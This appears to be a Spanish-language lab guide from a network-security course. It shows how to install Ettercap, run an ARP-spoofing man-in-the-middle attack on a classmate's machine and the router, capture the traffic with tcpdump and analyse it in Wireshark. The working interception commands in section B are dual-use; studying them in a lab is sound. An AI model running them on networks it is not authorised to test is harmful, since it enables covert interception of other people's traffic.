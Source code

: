 <a id="top"></a>

# Tabla de Contenidos
  - [Apartado A](#apartado-a)
  - [Apartado B](#apartado-b)
  - [Apartado C](#apartado-c)
  - [Apartado D](#apartado-d)
  - [Apartado E](#apartado-e)
  - [Apartado F](#apartado-f)
  - [Apartado G](#apartado-g)
  - [Apartado H](#apartado-h)
  - [Apartado I](#apartado-i)
  - [Apartado J](#apartado-j)
  - [Apartado K](#apartado-k)
  - [Apartado L](#apartado-l)
  - [Apartado M](#apartado-m)
  - [Apartado N](#apartado-n)
  - [Apartado O](#apartado-o)
  - [Apartado P](#apartado-p)
  - [Apartado Q](#apartado-q)
  - [Apartado R](#apartado-r)
  - [Apartado S](#apartado-s)
  - [Apartado T](#apartado-t)


## APARTADO A
### Instalación de Ettercap
Instale el Ettercap y pruebe sus opciones básicas en línea de comando.
```bash
apt install ettercap-text-only
```
<p align="right"><a href="#top">back to top</a></p>

## APARTADO B 
### Captura de Paquetería y Análisis
Capture paquetería variada de su compañero de prácticas que incluya varias sesiones HTTP. Puede utilizar reshark para los siguientes subapartados.

### 1. Realizar un ataque MITM (Man-in-the-Middle)
Ejecutamos el siguiente comando para interceptar el tráfico entre la máquina del compañero y el router:
```bash
ettercap -T -q -i ens33 -M arp:remote //10.11.49.55/ //10.11.48.1/
```
Para generar tráfico HTTP, se puede usar el siguiente comando en la máquina víctima:
```bash
xdg-open http://www.edu4java.com/es/web/web30.html
```
### 2. Captura de tráfico con tcpdump
En otra terminal, ejecutamos `tcpdump` para guardar el tráfico capturado en un archivo `.pcap`:
```bash
tcpdump -i ens33 -s 65535 -w compa.pcap
```
### 3. Transferencia del archivo de captura
Desde nuestra máquina local, descargamos el archivo de captura usando `scp`:
```bash
scp lsi@10.11.49.54:/home/lsi/compa.pcap .
```
### 4. Análisis con Wireshark
Abrimos el archivo `compa.pcap` en Wireshark y comenzamos el análisis.